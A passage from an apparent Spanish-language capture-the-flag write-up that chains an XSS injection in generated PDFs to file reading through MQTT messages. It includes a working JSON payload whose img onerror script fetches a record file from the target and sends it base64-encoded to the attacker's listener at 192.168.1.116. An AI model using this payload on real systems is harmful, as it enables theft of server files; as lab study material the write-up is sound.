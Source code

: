 ```html
                </tr>
                ...

                            <tr>
                    <td>2024-09-02T23:29:26.645Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A29%3A26.645Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                    </table>
        <a href="../dashboard.php" class="logout-link">&lt; Back</a>
    </div>
</body>
</html>
```

Obtenemos un listado de registros en formato PDF para descargar. Nunca aparecerán más de 10 registros y, por cada mensaje enviado al topic `record`, aparecerá un PDF para descargar en este listado.

## XSS en PDF a LFI a través de MQTT

Descargamos algunos de esos ficheros utilizando la misma técnica. Seguimos a la escucha con nuestro servicio HTTP y enviamos el siguiente JSON al topic `data`, introduciendo las URLs de descarga de los ficheros PDF.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-02T23%3A29%3A26.645Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

Esta vez guardamos el base64 en un fichero `base64pdf1.txt`, por ejemplo.

```bash
cat base64pdf1.txt | base64 -d > document.pdf
```

Si visualizamos el documento, podremos ver la inyección XSS enviada.
